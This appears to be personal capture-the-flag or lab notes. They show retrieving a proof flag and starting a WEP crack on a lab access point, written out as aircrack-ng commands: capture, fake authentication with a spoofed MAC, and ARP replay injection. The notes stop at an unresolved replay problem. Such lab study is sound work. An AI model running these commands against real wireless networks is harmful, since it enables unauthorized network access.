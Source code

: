Ignore the error
![[Pasted image 20230909051304.png]]

Download hash
![[Pasted image 20230909051248.png]]
Grab the flag
```
wget http://192.168.1.1/proof.txt
cat proof.txt
```
![[Pasted image 20230909051421.png]]
Hash: 3b9a7b0467b37b7282d660aeaf5ef022
# WEP
## Initial Connection
![[Pasted image 20230909051755.png]]
## Setup

Monitor mode plus channel refinement plus logging to a file
![[Pasted image 20230909051856.png]]

```
sudo airodump-ng wlan0mon -c 3 -w Room101
```
![[Pasted image 20230909051956.png]]
Resource: [simple_wep_crack [Aircrack-ng]](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack#:~:text=Start%20the%20wireless%20interface%20in%20monitor%20mode%20on,in%20ARP%20request%20replay%20mode%20to%20inject%20packets)
First see if I can associate with the Access Point

```
 sudo aireplay-ng -1 0 -e Room101 -a 02:13:37:BE:EF:03 -h 00:11:22:33:44:55 wlan0mon
```

Association successful
![[Pasted image 20230909052334.png]]
My MAC appears as well as an acknowledgement (I pressed a to show all stations, clients, and acknowledgements
![[Pasted image 20230909052430.png]]

Now to create more IV's for WEP with aireplay-ng
```
sudo aireplay-ng -3 -b 02:13:37:BE:EF:03 -h 00:11:22:33:44:55 wlan0mon
```

![[Pasted image 20230909052820.png]]
Note that it has the 0 ARP request issue.
